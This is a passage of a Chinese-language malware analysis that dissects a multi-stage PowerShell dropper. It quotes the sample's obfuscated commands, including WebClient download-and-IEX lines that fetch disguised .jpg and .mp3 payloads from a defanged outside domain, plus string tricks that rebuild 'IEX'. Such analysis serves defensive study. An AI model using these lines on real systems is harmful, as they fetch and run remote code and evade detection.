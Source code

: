 在该段代码中，程序首先会通过

do `{`$ping = test-connection -comp google.com -count 1 -Quiet`}` until ($ping);

的方式循环请求google.com 如果成功请求则继续，如果请求失败则退出。

然后程序使用

$p22 = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072);

命令指定请求协议，在本样本中使用的是TLS1.2协议进行网络请求。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01acd5d8f5da2bb8d0.png)

然后通过

[void] [System.Reflection.Assembly]::LoadWithPartialName(‘Microsoft.VisualBasic’);

反射加载执行代码

执行的代码是

$fj=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),’Dow$**$loadStri$**$g’.replace(‘$_$’,’n’),[Microsoft.VisualBasic.CallType]::Method,’hxxps://gritodopovo.com.br/natalidade/RunnPNovaStartupR.jpg’)|IEX;

该段代码首先通过vb的方法请求并下载hxxps://gritodopovo.com.br/natalidade/RunnPNovaStartupR.jpg到本地，然后通过IEX执行该jpg文件。

同样的，接着通过

[Byte[]]$toto=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),’Dow$**$loadStri$**$g’.replace(‘$_$’,’n’),[Microsoft.VisualBasic.CallType]::Method,’hxxps://gritodopovo.com.br/natalidade/darkspam.mp3’).replace(‘..’,’0x’)|IEX;

下载hxxps://gritodopovo.com.br/natalidade/darkspam.mp3到本地，并且将..替换为0x并通过IEX执行。

### <a class="reference-link" name="RunnPNovaStartupR.jpg"></a>RunnPNovaStartupR.jpg

同样的方法，我们请求该地址，并且尝试保存jpg的返回值

[![](https://p0.ssl.qhimg.com/t01ae14313936c95dd7.png)](https://p0.ssl.qhimg.com/t01ae14313936c95dd7.png)

保存的jpg返回值如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t010789e6a542c1c98a.png)

这里很明显又是一个powershell的脚本。

在该脚本中，程序首先是定义了一个名为Get-DecompressedByteArray的function，这里只是方法定义，还未调用，我们暂时可以不用看。

接着程序通过

$t0=’DEX’.replace(‘D’,’I’);

将$t0赋值为IEX

